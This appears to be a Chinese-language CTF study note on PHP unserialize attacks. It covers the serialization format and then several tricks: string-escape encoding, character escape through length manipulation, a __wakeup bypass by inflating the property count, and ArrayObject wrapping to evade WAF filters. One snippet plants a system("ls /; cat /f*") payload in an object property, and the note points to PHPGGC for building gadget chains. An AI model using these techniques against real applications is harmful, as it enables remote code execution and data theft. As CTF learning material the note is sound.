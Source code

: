 # 介绍
	- 用一个字符串表示其他类型（数字，对象等）的数据
- # 结构
	- 语法
		- 对象：`O:<类名字的长度>:"<类的名字>":<属性的数量>:{<各个属性>}`
		- 字符串：`s:<字符串长度>:"<字符串内容>";`
			- 字符串内容不需要转义，PHP会根据前面的长度自动读取相应长度的字符串
	- 示例
		- 空格和换行是为了更加好读，请忽略空格换行和注释
		- ```php
		  O:1:"A":1:{
		      s:4:"aaaa"; // A的属性名：字符串"aaaa"
		      O:1:"B":1:{ // A的属性值：对象B
		          s:4:"bbbb"; // B的属性名：bbbb
		          s:5:"/flag"; // B的属性值：字符串"flag"
		      }
		  }
		  ```
- # 技巧
	- 字符串
		- 使用大写 S 可以自动转义`\61`等符号
			- 比如：`S:1:"\61"`就是字符串`"a"`
		- 可以试试通过改变字符串长度实现字符逃逸
	- 对象
		- unserialize()会把多余的字符串当垃圾处理，读取完后就会丢弃后面的字符
		- protected 变量
			- 会被反序列化成这样`S:7:"\00*\00aaaa";`
		- `O:1:"A":1:`也可以用`O:+1:"A":1:`和`O:1:"A":+1:`代替
		- 对象内可以用指针：`R:2;`指向第二个元素
		  id:: 6478aaed-0cfc-41e3-a12e-55de79af3104
			- 可以这样构造
				- ```php
				  $t = new test;
				  $t -> c = "system(\"ls /; cat /f*\");";
				  $t -> a = & $t -> b;
				  $s = serialize($t);
				  ```
		- `__wakeup`绕过：修改类的键数量
		  id:: 64f02a3a-500c-41de-80fa-f565b1030a3b
		  collapsed:: true
			- ```php
			  <?php
			  
			  class Test {
			      public $a;
			      function __wakeup() {
			          echo "wakeup";
			      }
			      function __destruct() {
			          echo "destruct";
			      }
			  }
			  
			  $t = new Test();
			  $t -> a = "114514";
			  $s = serialize($t);
			  $s = str_replace('"Test":1', '"Test":2', $s);
			  echo serialize($t);
			  $t2 = unserialize($s);
			  var_dump($t2);
			  ?>
			  
			  ```
				-
		- 快速反序列化：参考[[CTFWEB/WP/数博会 贵阳杯]]
		  id:: 64b5744d-1d6c-43e5-95d5-2121b31d0d57
	- 自定义序列化对象在序列化后以C开头，[例题](((64b2aacc-598b-4be7-b7d4-48230820277e)))
	  id:: 64f02a3a-fbd3-41a2-90dd-34399046a38a
		- `ArrayObject`
		  id:: 6569d71e-f0f4-4d99-961c-e306b814b20e
			- 在PHP7及以下版本中其序列化后以`C`开头，在PHP8中`ArrayObject`序列化后仍然以O开头
			- ArrayObject序列化的格式中含有后方数据的字符数量，如果修改了其中的字符串则需要同时修改ArrayObject最前方的长度。
				- ```text
				  C:11:"ArrayObject":95:{x: ...省略
				    ^名字长度         ^ 后方的字符数量
				  ```
			- ```php
			  $o = 123123; // 这是原来的对象
			  $a = new ArrayObject([114 => 514]);
			  $a -> o = $o; // 把它塞进ArrayObject里
			  $o = $a; // 最后反序列化$a后其的开头就是C而不是O或者a，可以用来绕过WAF
			  ```
- # 工具
	- 可以使用[PHPGGC](https://github.com/ambionics/phpggc)自动构建ThinkPHP, Lavaral等的反序列化payload
- # 参考
	- [PHP 内置类的应用](https://www.cnblogs.com/iamstudy/articles/unserialize_in_php_inner_class.html#_label1_0)
- # 另见
	- [[CTFWEB/PHP/原生类]]配合反序列化可以完成发送HTTP请求之类的操作